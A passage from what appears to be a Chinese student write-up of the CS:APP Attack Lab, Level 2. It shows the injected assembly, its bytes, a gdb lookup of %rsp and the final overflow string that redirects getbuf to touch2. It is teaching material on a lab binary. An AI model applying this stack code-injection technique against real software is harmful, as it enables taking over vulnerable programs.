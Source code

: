 需要注意的是，执行完了movl给第一个参数赋值cookie，我们要跳转到`touch2`: 0x4017ec的位置

writeup中说明了，最好不要使用call或者jmp指令，所以我们仍然使用ret指令。

当`getbuf`内部的ret指令执行完毕后，PC指向攻击代码的部分，同时，%rsp指向原本栈帧`test`函数的部分

为了跳转`touch2`，我们要push一次`touch2`的地址。

所以初步的攻击代码如下:

```nasm
movl    $0x59b997fa, %edi
pushq   $0x4017ec
ret
```

将其转为字节码后，作为输入的字符串。

```bash
touch attack2.s
vim attack2.s     # 编辑代码
gcc -c attack2.s
objdump -d attack2.o
```

得到:

```text
attack2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3                   	retq   
```

同时，需要知道当程序运行到`getbuf`时，`%rsp`寄存器的值，因为我们需要绕回到这个地址然后逐行执行攻击代码。

在`getbuf`第二行汇编处断点，用gdb调试打印`%rsp`寄存器的值即可。

```bash
(gdb) i r rsp
0x5561dc78
```

所以level2的注入代码如下:

```text
bf fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3
